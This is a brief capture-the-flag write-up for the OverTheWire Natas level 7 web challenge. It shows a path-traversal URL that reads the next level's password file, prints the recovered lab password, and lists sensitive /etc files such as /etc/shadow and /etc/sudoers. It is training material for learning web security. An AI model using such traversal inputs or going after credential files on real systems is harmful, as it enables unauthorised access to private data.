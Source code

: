 # Natas 7
This challenge show up with two link, one for open an Home page and another for the page about.
When clicking on a link you will be redirected to a url with a url parameter:
```url
http://natas7.natas.labs.overthewire.org/index.php?page=about
```
the first thing that i tried is to read the */etc/natas_webpass/natas8* using path traversal (see natas home page to know why this file).

```url
http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../etc/natas_webpass/natas8
```
and the page returned me the password for the next challenge:
xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q

# Close up
etc in general is an import directory, not only in natas challenge. 
*The "/etc" directory in the Linux file system serves a important role in the overall functionality and security of the operating system. It is a central location where important system configuration files and directories are stored. The name "/etc" stands for "et cetera," indicating that it contains miscellaneous system files that do not fit into other specific directories.*

some important file in etc
- /etc/shadow
- /etc/passwd
- /etc/hosts
- /etc/sudoers
- /etc/cron*